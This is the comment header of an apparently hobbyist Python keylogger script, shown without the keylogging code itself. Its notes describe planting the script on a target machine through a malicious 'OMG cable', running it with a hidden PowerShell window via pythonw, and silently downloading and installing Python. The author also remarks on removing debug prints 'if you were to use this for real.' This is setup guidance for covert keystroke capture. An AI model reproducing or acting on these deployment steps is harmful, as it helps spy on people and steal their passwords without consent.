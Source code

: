 # ----Random Notes----

#### install via cable

#pip install pynput

#pip install pywin32

#pip install requests

#pip install easygui

#run powershell >  pythonw "C:\Users\mrgig\Desktop\OMG CABLE STUFF\python keylogger test.py"

#powershell -WindowStyle Hidden

# --------------Install python via powershell---------------
#[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
#wget "https://www.python.org/ftp/python/3.8.0/python-3.8.0.exe" -outfile "python-3.8.0.exe"
#.\python-3.8.0.exe /quiet InstallAllUsers=0 PrependPath=1 Include_test=0

# python keylogging program

##You will need to comment out the prints and exception prints on code if you were to use this for real, as its testing
##i have prints on here that will tell you and let you know what part of the program is going at the time and that it is
##working

#Youtube channel of original creator - https://bit.ly/2U58Lt9
#modified by me
